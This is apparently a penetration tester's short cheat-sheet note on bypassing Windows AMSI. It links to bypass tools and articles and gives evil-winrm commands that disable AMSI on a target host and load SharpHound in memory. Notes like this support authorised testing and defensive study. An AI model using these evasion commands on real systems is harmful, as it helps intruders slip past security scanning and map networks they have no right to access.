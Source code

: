 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#exploitation
## Testing for Amsi Bypass:

- https://github.com/rasta-mouse/AmsiScanBufferBypass

## Amsi-Bypass-PowerShell

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## using evil-winrm

When you have a winrm shell with evil-winrm you can use the bypass amsi module to bypass amsi detection's on your target: 

```
evil-winrm -i 172.16.1.1 -u afsimmons -p "" -e /opt/privesc
Bypass-4MSI
menu
Invoke-Binary /opt/privesc/SharpHound.exe
```

## Resources:

- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
- https://slaeryan.github.io/posts/falcon-zero-alpha.html
- https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/